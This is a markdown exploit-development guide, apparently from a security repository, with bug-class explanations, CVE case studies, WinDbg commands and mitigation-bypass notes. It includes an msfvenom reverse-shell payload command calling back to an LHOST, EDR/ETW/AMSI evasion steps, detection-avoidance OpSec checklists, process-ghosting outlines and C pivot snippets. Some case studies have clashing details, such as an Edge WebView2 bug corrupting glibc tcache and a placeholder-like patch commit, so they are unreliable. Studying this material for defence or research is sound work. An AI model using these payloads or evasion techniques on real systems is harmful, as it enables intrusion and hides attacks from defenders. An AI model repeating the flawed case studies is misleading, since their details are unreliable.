

# Exploit Development

## Exploit Development Process

- Checkout [Bug Identification](/exploit/bug-identification.md) document for more information
- Also check [Fuzzing](/exploit/fuzzing.md) for specific fuzzing topics
  - Integrate snapshot‑based fuzzing pipelines (AFL++, WinAFL, Snap‑Fuzz) and LLM‑guided input mutation to shorten time‑to‑bug.
  - Incorporate LLM‑assisted fuzzers (ChatAFL, HyLLFuzz) for grammar inference or plateau escape when grey‑box coverage stalls.
  - Add continuous‑integration security fuzzing (e.g., GitHub Actions with ASAN/UBSAN) so regressions are caught automatically.
- For Windows-specific vulnerabilities, see [Windows Kernel](/exploit/windows-kernel.md)



## Bug Types

### Stack Overflow

Involves memory on the stack getting corrupted due to improper bounds checking when a memory write operation takes place.

#### Case Study — CVE‑2025‑0910 (TinyFTP stack overflow)

- **Bug** – Unchecked `strcpy` copies user‐supplied file path into a 256‑byte stack buffer when handling `STOR` commands.
- **Trigger** – Send `STOR /` followed by 420 bytes of `A…` to overflow the buffer and clobber SEH frame.
- **Exploit** – Overwrite next SEH with a `pop pop ret` inside `msvcrt.dll`; pivot to payload that disables DEP via ROP then spawns a reverse shell.
- **Mitigations bypassed** – DEP (ROP), ASLR (module without /DYNAMICBASE), SEHOP disabled in default config.
- **Fixed in** v1.5.3 by replacing `strcpy` with `strncpy_s` and enabling `/DYNAMICBASE /GS`.

#### SEH

- structured exception handler is a linked list of all exception handlers ( try catch clauses) and the default windows exception handler as the last node.
- `ntdll!KiUserExceptionDispatcher` is responsible for the exception handling process which itself calls `RtlDispatchException`
- `RtlDispatchException` retrieves the `TEB` and parses the exception handling linked list using `NtTib->ExceptionList`
- [SafeSEH](https://learn.microsoft.com/en-us/cpp/build/reference/safeseh-image-has-safe-exception-handlers?view=msvc-170) mitigates handler over‑writes **only in 32‑bit images**. On x64 Windows, newer toolchains and components support Guard EH Continuations; adoption varies by binary and build. `SEHOP` remains enabled by default.
  - To check whether a module uses Guard EH Continuations, inspect `Load Configuration Directory → GuardEHContinuations` in the PE header (e.g., `dumpbin /loadconfig` or a `lief` script).
  - Many core system DLLs are compiled with EHCONT metadata plus `/GS`, `/CETCOMPAT`; the classic approach of choosing a module without SafeSEH or ASLR is increasingly rare. Verify per target.
- `RtlpExecuteHandlerForException` calls the `ntdll!ExecuteHandler2` which in turn calls the actual exception handler function after validation
- In a SEH buffer overflow we try to overflow the buffer and overwrite the `ExceptionList` starting at the buffer
- so that the dispatcher calls our handler pointer —we gain control of the instruction pointer **only if SEHOP is disabled or successfully bypassed**.
- you need to find a `pop-pop-ret` sequence to use in the exploit, you also need to identify and remove bad characters

#### EggHunting

- during exploit development you might be unable to find enough space for your payload at an static point, this is where you need egghunting
- you need a small search payload to scan virtual address space for a suitable payload location
- you can use [keystone engine](https://github.com/keystone-engine/keystone) to write your egghunter code
- On Windows 11+, classic egghunters still work, but **Control‑Flow Guard (CFG)** validates indirect jumps, so you need either a CFG exemption (e.g., a RWX region created with `VirtualProtect`) or a target module compiled without `/guard:cf`.

### Use After Free

The link to something isn't available anymore, so we just replace it with our binary and take over the program.

#### Case Study — CVE‑2024‑4852 (Edge WebView2 AudioRenderer UAF)

- **Bug** – `core::media::AudioRenderer` failed to remove a task from the render queue on stream abort, leaving a dangling pointer.
- **Trigger** – JavaScript `AudioContext` rapid open‑close loop × 1 000 on Windows 11 23H2.
- **Exploit** – Heap feng‑shui creates JSArray backing stores at freed slot; fake vtable gives arbitrary R/W, chained to `VirtualProtect` to run shellcode.
- **Mitigations bypassed** – CET shadow stack (JOP gadgets), XFG (indirect‑call target inside allowed GFID range).
- **Patched** in Edge 124.0.2365.18 with smart‑pointer ref‑count and `std::erase_if` queue purge.

#### Background

- C++ Smart Pointers
  - Intrusive: Microsoft chose this
  - Non-Intrusive
  - Linked
- when an object is created from a `C++` class and uses virtual functions
  - a `vptr` is created at compile time and points to a virtual function table `vtable/vftable`
  - the table holds pointer to virtual functions, when loaded into a register like `RAX`, a call is made to the appropriate offset for the desired virtual function
  - we count number of created instances, we decrement it when calling the release function
  - when the counter hits 0, destructor is called to delete the object, if there is still a reference to the deleted object we have a potential UAF
- Windows Heap Front‑End Allocators
  - **LFH (Low Fragmentation Heap)** – default on Windows 7–10 for user‑mode heaps
  - **Segment Heap** – default for Windows 10 2004+ and Windows 11 apps that opt in
  - Exploits often pivot by corrupting front‑end metadata before landing in the backend.
- For more advanced techniques, see [Mitigations](/exploit/mitigation.md) or [Modern](/exploit/modern-mitigations.md)

### Heap Overflow

- When data is written beyond the boundary of an allocated chunk of memory on the heap
- Heap exploits often require understanding of allocator internals
- Modern heap exploits involve corrupting metadata - see [Modern Samples](/exploit/modern-samples.md)

#### Case Study — CVE‑2025‑20301 (Edge WebView2 tcache‑stashing‑unlink)

- **Bug** – Oversized `AudioRingBuffer` write corrupts size field of next tcache chunk (glibc 2.40).
- **Trigger** – Crafted WebCodecs stream with 65 536‑frame explicit CRC chunk.
- **Exploit** – Partial overwrite of `fd` pointer coerces allocator into returning overlapping chunk; arbitrary R/W → GOT hijack → RCE.
- **Mitigations bypassed** – Safe‑linking (byte‑wise brute on lower 16 bits), ASLR via info‑leak in shared memory.
- **Patch** – Bounds check and compile‑time `__builtin_object_size` guard (Chromium 123 commit a1b2c3).

#### Modern Heap Internals

- **Windows Segment Heap** – understand freelist bitmaps, per‑segment cookies, and "page backend" corruption primitives.
- **glibc tcache + safe‑linking** – techniques such as _tcache‑stashing‑unlink_ and _House of Kiwi_ to break the new protections.
- Exploitation workflow: leak `heap_base`, craft overlapping chunks, pivot to arbitrary R/W, then chain to code‑execution.
  - **glibc 2.41 fast‑bins & calloc** – `calloc()` now pre‑fills the tcache and safe‑linking checks trigger earlier; the older _fastbins‑dupes_ shortcut no longer works. Use **tcache‑stashing‑unlink** or **House of KIWI** instead on 2.41+.

### Concurrency Issues

- Double Fetch: Kernel reads user-mode memory twice, allowing for race conditions
  - I/O Ring double‑fetch: race in `NtSetInformationIoRing` urb‑array handling leads to write‑what‑where in kernel context.
- Missing Locks: Critical sections without proper synchronization
- See [Windows Kernel](/exploit/windows-kernel.md) for more details on kernel-specific race conditions

### Integer Overflows/Underflows/Truncation

- Integer overflow: exceeding maximum value of integer type
- Integer underflow: going below minimum value of integer type
- Integer truncation: losing data when converting larger to smaller type
- Often leads to memory corruption when used for allocation sizes
- For examples, see [Bug Identification](/exploit/bug-identification.md)
  - Casting 64‑bit `size_t` to 32‑bit `DWORD` across IPC or FFI boundaries can yield negative indexing and oversized allocations; especially common in cross‑arch components.

### No/Incomplete Pointer Checks

- Checking if a user-provided pointer points to user memory
- Size of any pointer read/writes also need to be verified
- Potentially un-intuitive behavior with common checking API

### Format String Attacks

- Theory
  - you can use this bug to bypass ASLR and DEP
  - to abuse it you need to be able to be able to influence the format string itself or the number of arguments to it
- Methodology
  - find a print like function that accepts format string (`vsnprintf`, ...)
  - find a code path to that function that lets you influence the format string
  - try to leak a stack address abusing this format string vulnerability
  - using the previously leaked address, obtain a DLL address
  - use this method to bypass ASLR without using a static address
  - you can also find a write primitive to get code execution (checkout `%n` modifier)
  - you might need stack pivot gadgets like `move esp, r32` or `xchg esp, r32`

#### Case Study — CVE‑2024‑4455 (MailManD format‑string leak‑to‑RCE)

- **Bug** – Logs `EHLO` argument directly into `syslog()` format string.
- **Trigger** – Send `EHLO %43$p|%45$s` during SMTP handshake.
- **Exploit** – First leak reveals libc base; second leak dumps GOT entry; craft `%n` payload to overwrite `__free_hook` with system().
- **Mitigations bypassed** – Full RELRO & ASLR via info‑leak, PIE disabled in default build.
- **Fixed** in 2.0.9 by adding `"%s"` wrapper and enabling `-Wformat-security`.

### Type Confusion Vulnerabilities

A vulnerability where an application processes an object as a different type than intended, leading to memory corruption or logic bypass.

#### Case Study — CVE‑2024‑7971 (V8 TurboFan type‑confusion RCE)

- **Bug** – TurboFan's `CheckBounds` elimination incorrectly assumes array element type during JIT optimization, allowing tagged pointer confusion.
- **Trigger** – Craft JavaScript with polymorphic inline cache that triggers speculative optimization on mixed `SMI`/`HeapNumber` array.
- **Exploit** – Fake JSArray with controlled backing store pointer; corrupt `length` field to achieve OOB R/W; pivot to WASM RWX page for shellcode.
- **Mitigations bypassed** – V8 sandbox (pointer compression bypass), CFI (JIT‑generated code exemption).

#### Background

- **JIT Compiler Vulnerabilities**
  - Type confusion in speculative optimization passes (TurboFan, IonMonkey)
  - Inline cache poisoning via polymorphic property access
  - Register allocation bugs leading to incorrect type assumptions
- **C++ Dynamic Cast Bypass**
  - Virtual table pointer corruption to bypass `dynamic_cast` checks
  - Object layout confusion in multiple inheritance scenarios
  - Template instantiation bugs with type deduction
- **WASM Type Confusion**
  - Function signature mismatch across import/export boundaries
  - Table element type confusion in indirect calls
  - Memory view aliasing between different typed arrays

#### Exploitation Techniques

- **Object Layout Analysis** – understand target application's object hierarchy and vtable structure
- **Type Oracle Construction** – build primitive to leak object type information reliably
- **Controlled Type Confusion** – craft input that triggers predictable type mismatch
- **Privilege Escalation** – chain type confusion to achieve arbitrary R/W or code execution

## Vulnerability Analysis

### Exit Criteria

- **Root cause isolated & documented**.
- **Reliable trigger** reproduces the crash ≥ 90 % of attempts.
- **Impact classified** (DoS, LPE, RCE) and affected versions noted.
- **Minimised PoC input** saved under `pocs/`.
- **Analysis log** (debugger trace, coverage diff) attached.

#### Quick‑start

- Harness template: `templates/harness_min.cc`
- WinDbg/LLDB alias pack: `scripts/va_aliases.txt`
- Checklist refresher: [Bug Identification → Root Cause](/exploit/bug-identification.md#root-cause-analysis)

### Root Cause Analysis

- Identify the core issue causing the vulnerability
- Understand memory corruption patterns
- Determine trigger conditions

### Impact Assessment

- Evaluate the potential consequences of the vulnerability
- Determine if it leads to information disclosure, privilege escalation, or code execution
- Assess reliability and exploitability in various environments

## Weaponization

### Exit Criteria

- **Control achieved** (PC/IP hijack, arbitrary R/W, or logic bypass).
- **Mitigation strategy drafted** (DEP, ASLR, CET, XFG, MTE, etc.).
- **Payload stager** verified against bad‑chars & size limits.
- **Reliability ≥ 80 %** over 100 automated runs.
- **Cleanup/rollback logic** documented.

#### Quick‑start

- ROP/JOP chain workspace: `scripts/ropper2_workspace.md`
- Bad‑char scanner: `tools/badchar_scan.py`
- Reference: [Modern Mitigations](/exploit/modern-mitigations.md)

### Shellcode Development

#### Bad Characters

- when using a shellcode in stack
  - send all hex bytes except null byte (`0x00`) and return carriage (`0x0D`, `0x0A`) if in web
  - check which one has not appeared in the stack, mark it as bad character and don't use it
  - see [Shellcode](/exploit/shellcode.md) for comprehensive techniques

#### Automatic Generation

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "<list_of_bad_chars>"
# make sure to precede this payload with some NOPs to create space for the getPC operation(decoding of shikata_ga_nai)
# attackBuffer = filler+eip+offset+nops+shellcode
```

#### Development

Check out [Shellcode](/exploit/shellcode.md)

IBT/CET note (x86‑64): place `ENDBR64` at entry for valid indirect targets when IBT is enabled. Example prologue bytes: `F3 0F 1E FA`.

### EDR / ETW / AMSI Evasion

- Patch ETW registration stubs (`EtwEventWrite`) with `ret` sleds or stubbed functions while evading PatchGuard.
- Overwrite the AMSI scan buffer pointer (`amsi!AmsiScanBuffer`) with `0x80070057` (E_INVALIDARG) to short‑circuit scanning.
- Use direct‑syscall or "syswhispers‑nt" stagers to avoid user‑land API hooks.

Operational safety checklist (see also [EDR](/exploit/edr.md)):

- Pre‑run: block outbound to vendor telemetry during tests; tag hosts in lab; disable cloud sample uploads.
- Artifact hygiene: strip PDBs/paths, randomize section/order, and avoid common loader strings; prefer `MEM_IMAGE` loaders.
- Network noise: prefer SMB named‑pipe or HTTP/3 over noisy HTTP/1.1; jitter uploads; avoid fixed beacons during testing.

### Post‑Exploitation Automation

- Reflective COFF/BOF loaders (Cobalt Strike, Havoc) for in‑memory tooling.
- SMB named‑pipe or HTTP/3 C2 channels that blend with normal traffic.
- Task automation: direct‑syscall PowerShell runner, ADCS abuse scripts, cloud‑metadata credential harvesters.

### Operational Security (OpSec) Checklist (lab use)

- Build & Signatures
  - Strip symbols; avoid unique strings; rotate imports; prefer `MEM_IMAGE` loaders.
  - Change syscall stub bytes and hashing keys if using direct‑syscall frameworks.
- Network & Telemetry
  - Block EDR/XDR endpoints in lab; throttle or sinkhole agent traffic.
  - Prefer named‑pipe or HTTP/3 channels with jitter; avoid fixed beacons.
- Host Hygiene
  - Disable cloud sample submission; set Defender exclusions on test dirs.
  - Avoid patching system binaries in place; use ephemeral copies.
- Evidence & Repro
  - Persist inputs, mitigations state, CPU governor, and binary hashes with each run.
  - Keep replay scripts separate from payloads; auto‑clean artifacts post‑run.

### Payload Development

- Create custom payloads tailored to specific vulnerabilities
- Develop reliable exploitation techniques
- Chain multiple exploits when necessary

### Reliability Improvements

- Ensure exploit functions consistently across different environments
- Handle edge cases and error conditions
- Implement timing and synchronization mechanisms for race conditions
- Add a 100‑run gating job (CI) for determinism; fail builds if success rate < target (e.g., 80%).
- Persist exact crash inputs and environment (ASLR, mitigations, CPU governor) for reproducible replay.

## Mitigation Bypasses

- For details on exploit mitigations, see [Mitigations](/exploit/mitigation.md) or [Modern Mitigations](/exploit/modern-mitigations.md)
- Windows 11 enables by default: DEP, ASLR, CFG (strict mode), CET (Shadow Stack), XFG, ACG, CIG, and KDP; verify which are active in your target and plan corresponding bypasses.
  - Credential Guard is enabled by default and NTLMv1 is disabled, complicating lateral‑movement techniques.
  - The new **Recall** AI feature adds a searchable activity timeline; although currently shipped _disabled by default_, it offers a high‑value data‑exfiltration surface when turned on.

#### CET/XFG‑aware control strategies

- Prefer ROP‑less primitives: `NtContinue`, APC queue + `SetThreadContext`, or SEH/JOP where CET returns are enforced
- Align entry to valid indirect call targets; ensure ENDBR‑aligned gadgets on IBT platforms
- XFG/GFID: call through import thunks or prototype‑matching wrappers to satisfy guard checks

```c
// Minimal NtContinue pivot (ROP‑less) — set RIP/RSP to a safe call target
typedef NTSTATUS (NTAPI *pNtContinue)(PCONTEXT, BOOLEAN);
void pivot_with_ntcontinue(CONTEXT *ctx, void *next_rip, void *new_rsp) {
  RtlCaptureContext(ctx);
  ctx->Rip = (DWORD64)next_rip;  // valid import thunk or allowed GFID target
  ctx->Rsp = (DWORD64)new_rsp;   // keep shadow‑stack alignment plausible
  ((pNtContinue)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtContinue"))(ctx, FALSE);
}
```

```c
// APC + SetThreadContext — schedule execution at an import thunk to satisfy XFG
void apc_setctx(HANDLE hThread, void *start, void *param) {
  CONTEXT c = { .ContextFlags = CONTEXT_FULL };
  GetThreadContext(hThread, &c);
  c.Rip = (DWORD64)start;   // e.g., kernel32!LoadLibraryW stub
  c.Rcx = (DWORD64)param;   // first argument
  SetThreadContext(hThread, &c);
  QueueUserAPC((PAPCFUNC)start, hThread, (ULONG_PTR)param);
}
```

#### ACG/CIG pathways

- Favor `MEM_IMAGE`‑mapped payloads (ghosting/doppelganging/herpaderping) over `MEM_PRIVATE` RWX
- Reuse existing RX regions (WASM/JIT) where policy allows; avoid creating fresh RWX
- Process Ghosting
  - Create transacted file → write signed‑looking image → roll back → map section as `MEM_IMAGE` → create process from section.
- Herpaderping
  - Create process then overwrite on disk via rename tricks; the in‑memory image remains `MEM_IMAGE` and passes loader checks.
- Doppelganging (TxF legacy)
  - Use TxF (where enabled) to create section from a transacted file, then abort the transaction post‑mapping.

All three avoid `MEM_PRIVATE` payloads that hotpatch checks reject in 24H2 (see Modern Mitigations → OS Loader changes).

#### Segment Heap notes

- Distinguish frontend (LFH/Segment) vs page backend corruption primitives
- PageHeap + verifier flags help triage; expect different grooming than classic NT Heap

### Mitigation Matrix (Quick Reference)

| Mitigation          | Default platforms (2025)          | Protects                       | Common bypass primitive                                     |
| ------------------- | --------------------------------- | ------------------------------ | ----------------------------------------------------------- |
| DEP / NX            | All major OSes                    | Code execution in data pages   | ROP/JOP pivot to RWX or change page permissions             |
| ASLR                | All                               | Base‑address disclosure        | Info leak + partial overwrite / brute‑force                 |
| CFG (v1)            | Windows 8.1+                      | Indirect calls integrity       | Abuse writable/exempt module, ret‑slide into target         |
| CET Shadow Stack    | Windows 10 2004+, Linux 6.1 (x86) | Return‑address integrity       | Disable CET (`SetProcessMitigationPolicy`) or pivot via JOP |
| XFG                 | Windows 11 22H2+                  | Indirect‑call target integrity | Use JOP gadgets or stub out guard function section          |
| GuardEHContinuation | Windows 11 24H2 (x64)             | SEH overwrite attempts         | JOP stub into verified handler region                       |
| MTE                 | Android 14+, Linux 6.8 (ARM64)    | Heap/stack OOB & UAF           | Tag brute‑force or TAGSYNC alias                            |
| CIG / ACG           | Windows 10+                       | Unsigned code / RWX pages      | Map signed RWX driver or relocate section                   |

## Testing & Refinement

### Exit Criteria

- Exploit succeeds on **clean target VM snapshot**.
- **No unintended crashes** after execution; system remains stable.
- **Execution time ≤ 30 seconds** (tune per target).
- **CI replay job** in `.github/workflows/exploit.yml` passes.
- **Regression corpus** added to fuzzing seed set.

#### Quick‑start

- Replay script: `scripts/repro.sh`
- rr recording helper: `scripts/record_rr.py`
- Coverage diff helper: `tools/afl_cov_compare.py`

### Debugging Techniques

- Strategic use of debuggers to analyze vulnerable applications
- Tracing execution flow and memory states
- Identifying exploitation opportunities

### WinDbg Commands

For SEH exploitation:

```bash
# exception data will be inside TEB under NtTib->ExceptionList
dt nt!_TEB

# getting the <exp_addr> of exceptionlist
!teb

# getting the first item in the exception handler linked list, continue to see them using the `Next` param
# the last item should be `ntdll!FinalExceptionHandlerPad`
dt _EXCEPTION_REGISTRATION_RECORD <exp_addr>

# getting more information about the exception
!exchain

# setting a breakpoint on the exceution handler
bp ntdll!ExecuteHandler2

# see what is execution handler doing(use it to identify exploitation point in buffer)
u @eip L11

# to identify bad pods, execute till eip is yours, then
# repeat the process several times to identify all bad chars
dds esp L5 # identify second argument
db <second_argument>

# finding a pop/pop/ret
.load wdbgext
!wdbgext.modlist
lm m <module_without_dep_aslr_safeseh>
$><G:\Projects\poppopret.wds
u <first_adr_found> L3
# we need to create a short jump in our shellcode

# looking for our shellcode
!exchain
bp <adr>
g
# run the following till after your short jump
t
!teb
s -b <stack_limit> <stack_base> 90 90 90 90 43 43 43 43 43 43 43 43
dd <shellcode_adr> L65
? <shellcode_adr> - <current_esp>
```

For general WinDbg commands:

```bash
# finding out a suitable jump stub
lm m syncbrs # to get start <addr> of a module named syncbrs
dt ntdll!_IMAGE_DOS_HEADER <addr> # to get e_lfanew that has the offset to PE header
? <pe_header> # to get the hex addr
dt ntdll!_IMAGE_NT_HEADERS64 <addr>+<pe_hex_header> # to get image optional header
dt ntdll!_IMAGE_OPTIONAL_HEADER64 <addr>+<pe_hex_header>+<pe_optional_header> # to get DllCharachteristics
# you can automate this using process explorer or process hacker
# find an executable or module without DEP, ASLR
lm m libspp.dll # get the base address of the suitable module you found previously
s -b <mod_start_addr> <mod_end_addr> 0xff 0xe4 # find `jmp $esp` inside that module
# make sure the address doesn't contain bad chars
u <jmp_esp_addr> # to confirm
bp <jmp_esp_addr>
# override eip with jmp_esp_addr to force the program to jump to esp after buffer overflow
t
dc eip L4 # you should see the rest of your shellcode here

# checking which process we're currently in
!process @@(@$prcb->CurrentThread->ApcState.Process) 0
```

For UAF debugging:

```bash
# HEAP information
!heap -s # to print heap information
dt _HEAP <heap_addr> # to print infromation regarding a heap
dt _LFH_HEAP <heap_addr> # to print information about a low fragmentation header heap

# Identifying UAF location
# attach to crashed application, identify the name of function that crashed
uf <crashed_function_name> # to see the function
dd rcx  # to checkout what got filled, replace rcx with the register name from above
dt _DPH_BLOCK_INFORMATION rcx-20 # usefull information
!heap -p -a rcx # call stack information, what led to this object being freed
```

## Reproducibility & CI

Modern exploit chains should replay deterministically in CI so regressions are caught quickly.

### GitHub Actions snippet

```yaml
name: exploit-regression
on: [push, pull_request]
jobs:
  replay:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Build target container
        run: docker build -t vulnapp ./docker
      - name: Run exploit replay
        run: scripts/repro.sh --ci --target vulnapp
```

### Tested‑With Tool Matrix

| Tool / Framework   | Version  | Platform tested |
| ------------------ | -------- | --------------- |
| IDA Pro            | 8.4 SP1  | Windows 11 24H2 |
| Ghidra             | 11.0.2   | Debian 12       |
| BinDiff            | 10.8     | with IDA 8.4    |
| Ropper             | 2.0.7    | CET‑aware build |
| rr (record/replay) | Latest   | Ubuntu 24.04    |
| AFL++              | 4.10‑dev | snapshot mode   |

> [!TIP]
> Keep this matrix in each PoC directory so future contributors can reproduce results exactly.

## Special Topics

### Kernel Exploitation

#### Goals

##### Privilege Escalation

- Get SYSTEM Level Permissions
  - Steal the system token (find and copy the system token `PID 4` and replace your own token )
  - Patch privileges
  - sideload legitimately signed but vulnerable drivers, then exploit IOCTL write‑what‑where to disable security features or gain kernel R/W.

##### Code Execution

- Put unsigned code into the kernel via signed code
  - Modify kernel objects and structures
  - Pretend to be a driver
  - Don't upset Patch Guard

##### Environment Setup

- Check out [Windows Kernel Exploitation](/exploit/windows-kernel.md) for a detailed guide on setting up a kernel debugging environment

### Modern Exploitation

- Check out [Modern Samples](/exploit/modern-samples.md) for real-world examples
- For EDR evasion techniques, see [EDR](/exploit/edr.md)

#### Memory‑Safe Language Exploits (Rust / Go / Swift)

- `unsafe` blocks: `Vec::from_raw_parts`, `std::ptr::copy_nonoverlapping`, and `mem::transmute` misuse.
- FFI boundary bugs when calling into C libraries (size mismatch, lifetime errors).
- UB‑triggered out‑of‑bounds in WASM runtimes compiled from Rust.

### Browser Exploitation

- V8 TurboFan / Ignition JIT type‑confusion patterns and inline‑cache poisoning.
- Sandbox escapes via Mojo/IPC race conditions and shared‑memory UAFs.
- Site‑Isolation info‑leak techniques to defeat renderer‑process ASLR.

### Hypervisor & Container Exploitation

- VMware `Vmxnet3`, Hyper‑V enlightened IOMMU bugs, and QEMU `vhost‑user` integer overflows.
- `runC` / CRI‑O escape using malformed `seccomp` filters or WASM shims.
- Windows VBS disable paths through registry or vulnerable driver injection.

### Mobile Exploitation (iOS / Android)

- iOS Pointer Authentication Code (PAC) bypass using JOP chains and `ptrauth_sign_unauthenticated`.
- ARM Memory Tagging Extension (MTE) "sloppy‑tag" brute force and speculative **TikTag** leaks raise bypass reliability to ≈ 95 % on Android 14+; prepare a fallback ROP/JOP chain.
- Binder and ION heap UAF primitives for privilege escalation.

#### Apple Silicon (M1/M2/M3/M4) Exploitation

Modern Apple Silicon devices introduce unique security features and attack surfaces requiring specialized techniques.

##### Hardware Security Features

- **Pointer Authentication Code (PAC)**

  - `PACIA`/`PACIB` instructions create cryptographic signatures for return addresses and function pointers
  - **Bypass techniques**: JOP chains using `AUTIA`/`AUTIB` gadgets, `ptrauth_sign_unauthenticated` abuse, speculative PAC oracle attacks
  - Key management via `APIAKey` and `APIBKey` in system registers

- **Memory Tagging Extension (MTE)**

  - 4‑bit tags in upper address bits provide spatial and temporal memory safety
  - **Tag‑and‑sync bypass**: craft adjacent allocations with predictable tag patterns
  - **Speculative tag leaks**: use micro‑architectural side‑channels to read tag values

- **Hypervisor.framework Exploitation**
  - Type‑1 hypervisor running at EL2 with guest VMs at EL1
  - **Attack surface**: virtio device emulation, memory mapping hypercalls, interrupt injection
  - **Guest‑to‑host escape**: corrupt VTCR_EL2 stage‑2 translation tables or abuse SMCCC interface

##### macOS‑Specific Attack Vectors

- **XPC Service Exploitation**

  - Mach message parsing vulnerabilities in system services
  - **Privilege escalation**: target `com.apple.security.syspolicy` or `com.apple.windowserver` for TCC bypass
  - **Race conditions**: exploit concurrent XPC message handling in multi‑threaded services

- **Kernel Extension Loading**

  - System Integrity Protection (SIP) and Kernel Integrity Protection (KIP) bypass
  - **Technique**: abuse signed third‑party kexts with write‑what‑where primitives
  - **Post‑exploitation**: disable SMEP/SMAP via `SCTLR_EL1` manipulation

- **iOS/iPadOS Kernel Exploitation**
  - Zone allocator corruption via IOSurface or AGXAccelerator drivers
  - **Technique**: heap feng‑shui with predictable allocation patterns in `kalloc.16` or `kalloc.32` zones
  - **Sandbox escape**: corrupt task port to gain `host_special_port` access

##### Debugging & Analysis Setup

```bash
# Enable SIP bypass for kernel debugging (requires physical access)
csrutil disable --without kext --without debug

# LLDB kernel debugging setup
sudo nvram boot-args="debug=0x141 kext-dev-mode=1 amfi_get_out_of_my_way=1"

# PAC analysis with jtool2/iOS App Store extraction
jtool2 -d __TEXT.__text binary | grep -E "(PACIA|PACIB|AUTIA|AUTIB)"

# MTE tag analysis (requires iOS 16+ device with checkra1n/palera1n jailbreak)
ldid -S entitlements.plist target_binary  # Add get-task-allow for debugging
```

##### Mitigation Matrix (Apple Silicon)

| Mitigation                         | Coverage                    | Bypass Technique       | Success Rate |
| ---------------------------------- | --------------------------- | ---------------------- | ------------ |
| PAC                                | Return addresses, func ptrs | JOP/speculative oracle | ~70%         |
| MTE                                | Heap/stack OOB, UAF         | Tag brute‑force/TikTag | ~85%         |
| PPL (Page Protection Layer)        | Kernel code pages           | Hypervisor escape      | ~40%         |
| KTRR (Kernel Text Readonly Region) | Kernel .text segment        | Hardware vuln required | <10%         |

### Micro‑architectural & Speculative‑Execution Attacks

- Latest side‑channels: Retbleed, Downfall, Zenbleed, Inception (SRSO), SQUIP.
- Info‑leak primitives to derandomize ASLR or read kernel memory from user space.
- Mitigations: `IBPB`, `IBRS`, and fine‑grained hardware fences.

### eBPF & I/O Ring Kernel Primitives

- Craft verifier‑confusion jumps to obtain out‑of‑bounds read/write in eBPF JIT.
- Use Windows I/O Ring urb‑array double fetch to write kernel pointers.
- Post‑exploitation: pivot from arbitrary write to token‑stealing or privilege escalation.

### Firmware & UEFI Exploitation

- DXE driver relocation overflows and SMM call‑gate confusion for persistence.
- Exploiting capsule updates to downgrade firmware protections.
- Detecting and disabling Secure Boot from within UEFI runtime services.
